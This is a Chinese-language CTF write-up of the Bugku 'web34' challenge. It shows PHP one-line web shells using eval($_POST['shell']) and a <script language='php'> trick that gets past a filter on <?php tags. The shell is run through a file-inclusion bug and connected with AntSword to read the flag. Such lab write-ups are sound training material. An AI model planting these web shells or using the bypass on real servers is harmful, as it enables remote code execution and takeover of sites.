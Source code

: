 # web34
![img](../../../image/bugku/3359652229290.png)
题目描述
文件包含
进入题目
![img](../../../image/bugku/4844353225845.png)
有?file=hello.php的字样
再打开源码
![img](../../../image/bugku/712855221599.png)
有个upload.php的字样
![img](../../../image/bugku/1270656239479.png)
文件上传
还有文件包含
这题估计是让上传一个图片马
然后用文件包含去执行这个图片马反弹shell
 ![img](../../../image/bugku/1390558237083.png)
先上传一个图片再抓包然后在图片的结尾中加入一个一句话木马
![img](../../../image/bugku/299122225826.png)
```php
<?php @eval($_POST['shell']);?>
```
上传成功
去执行一下看看是否能执行
 ![img](../../../image/bugku/662223248266.png)
去文件包含里执行了文件
发现并没有执行
反而是吧<?php?>标签给替换成了_
emmmm
这就需要尝试另一种方法去注入码了

----

想起以前在buu做个的一道题，和这道题类似

php和javascript都是脚本语言
而且javascript是可以指定外部的脚本的
```javascript
<script language='php'>echo 'hello';</script>;
```
```php
include('test.js')
```
上面的执行结果就是
![img](../../../image/bugku/5571640243402.png)
上传一个js的外部指定木马
```javascript
<script language='php'>echo 'hello'; @eval($_POST['shell'])</script>
```
>echo的含义是验证是否执行了php代码

上传木马
![img](../../../image/bugku/1518944236948.png)
查看是否成功
 ![img](../../../image/bugku/5102844230082.png)
返回hell
执行成功
:D~~
用蚁剑连接
![img](../../../image/bugku/4354046220612.png)
连接成功在
根目录下找到flag
![img](../../../image/bugku/3413847223116.png)
